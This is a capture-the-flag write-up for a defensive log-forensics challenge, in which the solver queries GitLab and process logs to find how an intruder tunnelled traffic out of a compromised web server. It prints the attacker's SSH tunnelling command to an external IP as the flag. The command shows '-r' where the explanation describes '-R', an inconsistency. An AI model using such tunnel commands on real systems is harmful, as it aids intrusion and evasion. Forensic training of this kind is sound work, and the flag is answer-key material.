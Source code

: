# Blue's Clues 7/8: Tunnel
> Okay. Let's recap. The web server somehow got exploited, and a webshell was uploaded. The webshell allowed for commands to be executed. A reverse-shell was launched. A gitlab user was created. The gitlab user created a malicious pipeline.

> Using this search in analytics>discover: host.hostname :"Rezifp-GitLab-Server" and gitlab.meta.remote_ip:10.0.0.5 and gitlab.ua:* And going into the "field statistics" tab, we can see that there are two user agents: curl and firefox, that made queries to our gitlab from the web server. However, firefox is not installed on the web server. There must be a tunnel/socks proxy that was created. Find the command line that created that tunnel.

> Flag format: <commandline>

> Example: ./tunnelcreator create tunnel --awesome

## About the Challenge
We need to find the command that created the tunnel/socks proxy

## How to Solve?
Im using this KQL syntax because I want to find the command that related to SSH and the `-R` option is used to set up a reverse port forwarding, also known as remote port forwarding. It allows connections from the remote SSH server to be forwarded to a local machine or a different machine on the client's network.

```
"ssh" and "-R"
```

And then find `proccess.command_line` in the `Search Field` form

![flag](images/flag.png)

```
ssh -i /tmp/key -r 8080 rezifp-admin@158.69.62.65
```